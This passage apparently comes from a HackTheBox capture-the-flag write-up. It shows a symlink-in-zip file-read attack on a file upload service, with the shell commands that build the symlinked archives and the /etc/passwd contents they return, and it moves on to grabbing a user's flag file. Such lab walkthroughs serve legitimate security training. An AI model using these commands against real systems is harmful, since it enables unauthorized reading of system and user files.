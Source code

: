And we see a typical server, and I now look into exploiting log4j.

## Exploitation & User Flag

I attempted some basic attacks like using unicode to force a PHP extension. After noticing an update in the HackTheBox updates page stating a patch for an unintended nullbyte vulnerability, I stopped pursuing these attacks.

I then remembered there were some zip vulnerabilities that involved symlinks, specifically ZipSlip.

I create a symlink and zip it to read the `/etc/passwd` file.

```
$ ln -s ../../../../../../../../../../etc/passwd zipslip.pdf
$ zip -y zipslip.zip zipslip.pdf
  adding: zipslip.pdf (deflated 70%)
```

Uploading the zip and looking at the response gives us the base64 encoded data of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can see a user `rektsu` and probably get the user flag doing this!

```
$ ln -s ../../../../../../../../../../home/rektsu/user.txt zipslip-user.pdf
$ zip -y zipslip-user.zip zipslip-user.pdf
```
